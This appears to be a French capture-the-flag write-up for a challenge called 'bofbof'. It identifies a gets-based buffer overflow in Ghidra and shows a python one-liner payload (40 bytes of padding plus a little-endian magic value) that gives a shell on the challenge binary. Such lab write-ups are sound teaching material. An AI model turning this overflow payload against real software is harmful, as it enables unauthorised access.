

# BOFBOF

On regarde tout d'abord ce qu'est ce fichier bofbof: 

```bash
$ file bofbof
bofbof: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=4449145718cb2fc63346e764a356d85a566a1c25, for GNU/Linux 3.2.0, not stripped
```

On peut donc l'exécuter pour regarder localement comment avoir le flag. 
Les commandes strings et ltrace n'ont rien donné de concluant donc je décide de sortir l'artillerie lourde: Ghidra.

Avec cela, on peut décompiler la fonction main



La fonction vuln nous donne un shell et on observe l'utilisation de la fonction très dangereuse gets. On voit venir le buffer overflow. 
En regardant la décompilation, le payload va ressembler à 40 bytes + 0x1122334455667788 (à renverser selon l'endianness)

On teste le payload:
```bash
$ (python2 -c "print('A'*40+'\x88\x77\x66\x55\x44\x33\x22\x11')")|
 ./bofbof
Comment est votre blanquette ?
>>> #
```

ça a l'air de fonctionner, testons directement sur le port ouvert grâce au code solve.py. Cela marche, plus qu'à cat le flag!   

